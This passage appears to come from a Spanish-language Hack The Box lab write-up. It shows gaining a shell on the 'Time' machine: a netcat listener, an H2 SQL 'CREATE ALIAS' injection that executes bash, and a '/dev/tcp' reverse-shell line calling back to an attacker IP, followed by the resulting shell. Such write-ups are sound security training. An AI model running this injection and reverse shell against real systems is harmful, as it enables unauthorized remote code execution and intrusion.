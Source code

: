 ```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
```

Ahora modificamos el `payload` para que nos envié la `reverse shell`

```bash
❯ catn inject.sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.100/443 0>&1')
```

Ahora hacemos lo mismo 

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![](/assets/images/htb-writeup-time/web8.png)

Y ganamos acceso

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.141.133 55146
bash: cannot set terminal process group (996): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ whoami
whoami
pericles
pericles@time:/var/www/html$ 
```
